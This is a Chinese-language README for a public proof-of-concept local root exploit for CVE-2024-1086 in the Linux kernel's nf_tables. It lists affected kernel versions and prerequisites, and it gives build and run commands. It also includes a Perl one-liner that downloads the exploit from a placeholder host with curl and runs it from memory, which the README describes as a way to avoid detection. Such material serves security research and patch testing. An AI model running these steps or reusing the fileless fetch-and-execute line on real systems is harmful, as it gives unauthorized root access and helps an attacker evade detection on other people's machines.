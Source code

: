 针对 CVE-2024-1086的通用本地权限提升概念验证漏洞，适用于 v5.14 和 v6.6 之间的大多数 Linux 内核，包括 Debian、Ubuntu 和 KernelCTF。KernelCTF 映像的成功率为 99.4%。

## 受影响的版本



该漏洞影响从（包括）v5.14 到 v6.6 的版本，不包括已修补的分支 v5.15.149>、v6.1.76>、v6.6.15>。这些版本的补丁于 2024 年 2 月发布。该基础漏洞影响从 v3.15 到 v6.8-rc1 的所有版本（不包括已修补的稳定分支）。

**警告：**

- 该漏洞在带有 kconfig 的 v6.4> 内核（包括 Ubuntu v6.5）上不起作用`CONFIG_INIT_ON_ALLOC_DEFAULT_ON=y`
- 这些漏洞需要用户命名空间 （kconfig ），这些用户命名空间是非特权的 （sh command = 1），并且 nf_tables 已启用 （kconfig ）。默认情况下，这些都在 Debian、Ubuntu 和 KernelCTF 上启用。其他发行版尚未经过测试，但也可能正常工作。此外，该漏洞仅在 x64/amd64 上进行了测试。`CONFIG_USER_NS=y``sysctl kernel.unprivileged_userns_clone``CONFIG_NF_TABLES=y`
- 该漏洞在具有大量网络活动的系统上*可能非常*不稳定
  - 带有WiFi适配器的系统，当被高使用率的WiFi网络包围时，会非常不稳定。
  - 在测试设备上，请通过BIOS关闭WiFi适配器。
- 运行漏洞利用后的内核崩溃（系统崩溃）是一种副作用，故意没有修复以防止恶意使用漏洞（即，利用尝试现在应该更加明显，并且在实际操作中不切实际）。尽管如此，它仍然允许在实验室环境中进行工作的概念验证，因为 root shell 是正常工作的，并且可以通过磁盘进行持久性。

## 用法



### 配置



默认值应该在带有本地 shell 的 Debian、Ubuntu 和 KernelCTF 上开箱即用。在未经测试的安装/发行版上，请确保 kconfig 值与目标内核匹配。这些可以在 [`src/config.h`](https://github.com/Notselwyn/CVE-2024-1086/blob/main/src/config.h) 中指定。如果在物理内存超过 32GiB 的计算机上运行此漏洞，请确保增加 . 如果通过 SSH（进入测试计算机）或反向 shell 运行漏洞，则可能需要切换到 以避免不必要的网络活动。`CONFIG_PHYS_MEM``CONFIG_REDIRECT_LOG``1`

### 建筑



如果这对您来说不切实际，则可以使用默认配置进行编译的 x64 二进制文件

```
git clone https://github.com/Notselwyn/CVE-2024-1086
cd CVE-2024-1086
make
```

二元的：`CVE-2024-1086/exploit`

### 运行



运行漏洞利用同样简单：

```
./exploit
```



还支持无文件执行，以防需要避免检测的渗透测试情况。但是，Perl 需要安装在目标上：

```
perl -e '
  require qw/syscall.ph/;

  my $fd = syscall(SYS_memfd_create(), $fn, 0);
  system "curl https://example.com/exploit -s >&$fd";
  exec {"/proc/$$/fd/$fd"} "memfd";
'
```